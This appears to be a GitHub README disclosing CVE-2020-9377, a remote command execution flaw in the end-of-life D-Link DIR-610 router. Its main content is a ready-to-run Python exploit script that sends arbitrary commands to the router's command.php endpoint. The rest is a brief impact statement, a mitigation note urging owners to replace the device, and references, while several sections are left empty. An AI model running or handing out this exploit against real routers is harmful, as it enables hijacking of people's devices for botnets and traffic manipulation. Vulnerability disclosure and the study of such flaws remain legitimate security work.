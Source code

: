 <p align="center">
  <h3 align="center">CVE-2020-9377</h3>
  <p align="center">Remote Code Execution (RCE) on DLINK 610 Router</p>
</p>

---

### Summary

---

### Description

---


### Exploit

```python
#!/usr/bin/python

import os
import sys
import urllib2
import threading
import time

def main(host, port, uid, command):
    request = urllib2.Request('http://%s:%s/command.php' % (host, port), 'cmd=%s' % command, { 'Cookie': 'uid=%s' % uid })
    print urllib2.urlopen(request).read()

if __name__ == '__main__':
    [host, port, uid, command] = sys.argv[1:5]
    main(host, port, uid, command)
```

---

### Impact

A malicious agent can execute commands on the router system remotely and take control of it and subvert such router to work/perform actions that it wants, using the same for botnets, traffic infection actions and other possibilities.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion



---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9377
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-community/attacks/Command_Injection
5. https://portswigger.net/web-security/os-command-injection